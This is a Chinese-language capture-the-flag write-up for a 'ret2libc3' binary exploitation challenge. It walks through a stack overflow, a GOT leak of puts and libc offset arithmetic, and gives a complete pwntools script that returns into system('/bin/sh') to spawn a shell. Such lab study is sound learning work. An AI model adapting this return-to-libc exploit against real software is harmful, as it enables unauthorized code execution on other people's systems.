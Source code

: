 # ret2libc3

检查程序保护

![image-20240426175803055](图片/image-20240426175803055.png)



查看反汇编

![image-20240509173508421](图片/image-20240509173508421.png)

观察程序，发现溢出点在子函数中

![image-20240509173717414](图片/image-20240509173717414.png)

从拷贝函数这里开始突破，首先我尝试了在IDA中寻找system函数，构造系统调用的

rop链，由于是动态链接的文件，无法找到这些。于是考虑利用libc来找system函数

payload如下

```python
from pwn import *
import time 
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

#gdb.attach(sh)
#sleep(15)

#获取puts的got地址
puts_plt = ret2libc3.got['puts']
data = sh.recvuntil(b'Give me an address (in dec) :')
#程序中这里会将输入的地址取值，输入got表地址，便得到了函数地址
sh.send(str(puts_plt))
#接收一行数据
data = sh.recvline()
#根据冒号将数据拆分成两部分 然后取出最后一部分，用strip() 去除收尾空格，再用int转为整数
puts_address = int(data.split(b':')[-1].strip(), 16)
#print(hex(puts_address))

#根据偏移找到system和bin_sh的地址
system_address = puts_address - 0x2C4C0
bin_sh = puts_address + 0x120723

read_addr = 0x080483B0
pop_pop_pop_ret = 0x080486cd
#print(hex(system_address))               
payload = flat([b'a'*60,system_address,0xcafecafe,bin_sh])

sh.send(payload)


sh.interactive()
```

总结：

第一次read写入的是一个地址，See_something中打印出了改地址内的内容，正好可以利用got表打印出puts的函数地址

在这之后我卡了一会儿，一直在思考/bin/sh如何拿到，有尝试返回到read函数，但发现无法构造参数(有0x00)，后来想到也可以利用偏移到libc.so中去拿。思维有些定式，还需要转变一下自己的思维，让头脑更灵活一些。
